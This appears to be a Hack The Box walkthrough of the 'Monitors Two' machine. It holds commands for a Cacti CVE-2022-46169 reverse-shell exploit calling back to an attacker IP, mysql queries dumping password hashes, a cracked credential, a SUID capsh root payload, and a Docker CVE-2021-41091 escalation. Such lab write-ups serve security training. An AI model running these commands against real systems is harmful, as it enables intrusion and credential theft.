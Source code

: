 ```yaml
---
title: Monitors Two Walkthrough
published: 2024-03-26
description: ""
image: ./cover.png
tags:
  - easy
  - htb
category: Walkthrough
draft: false
---
```

nmap scan

The server is running cacti 1.2.22 which is vulnerable

![](./1.png)
![](./3.png)



https://www.exploit-db.com/exploits/51166

exploit : https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

```
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.29 --LPORT=1337
```

![](./4.png)


It's is a docker container

there is a entrypoint.sh

![](./5.png)

run this command to show all the tables


```
mysql --host=db --user=root --password=root cacti -e "show tables;"
```

Let's look at the password of the users

```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"
```

![](./6.png)


we got two user hashes

```
admin - $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus -
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

we where no able to find any password for the admin but we found a password for marcus

![](./7.png)

marcus - funkymonkey

let's ssh with this credentials

![](./8.png)


now we are inside the actual machine not the docker container. 

The machine is running this docker machine which is vulnerable

```
Docker version 20.10.5+dfsg1, build 55c4c88
```

exploit : https://github.com/UncleJ4ck/CVE-2021-41091

for this exploit to run we need to root on the running container

let's run linpeas on the container

![](./9.png)


we found a suid capsh. in gtfobins we found a payload

```
capsh --gid=0 --uid=0 --
```

this gives you the root shell

![](./10.png)

now let's run the exploit
![](./11.png)

![](./12.png)


we have rooted the box.